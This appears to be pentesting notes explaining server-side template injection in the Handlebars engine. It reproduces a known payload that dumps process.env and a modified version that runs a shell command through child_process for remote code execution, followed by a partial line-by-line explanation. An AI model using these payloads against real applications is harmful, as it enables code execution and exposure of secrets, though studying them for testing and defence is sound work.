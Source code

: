 For example, if fuzzing returns an error that exposes the templating engine such as Handlebars, attempt to search for any existing exploits for it via a query like "Handlebars SSTI RCE exploit". In terms of Handlebars, a famous exploit by [@Zombiehelp54](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html) is:

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return JSON.stringify(process.env);"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

It could be modified to gain remote code execution:

```javascript
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('ls');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

For how it works, see below:

1. The `{{#with "s" as |string|}}` binds the string `s` to the variable `string`. The string can be referenced as an object with properties and methods such as `"s".constructor`.
2. The `{{#with "e"}}` section is an inner block that provides another context level. It could be any string and has no direct impact, a placeholder to maintain consistent nesting.
3. The `{{#with split as |conslist|}}` assigns the value `split` to the variable `conslist`. The split is ambiguous, but references a method or function related to splitting strings (not sure though). `conslist` is an array used to manipulate method calls and data later.
4. The `{{this.pop}}` part removes the last element from the `conslist`, preparing it to insert something else, specifically the constructor of the string's method.
5. The `{{this.push (lookup string.sub "constructor")}}` part is as follows:
	1. The `lookup` helper is used to look up properties of an object, looking up the constructor property of the `string.sub` function.
	2. `string.sub` refers to a method like `substring`. Every function in JS has a constructor, which is the Function constructor.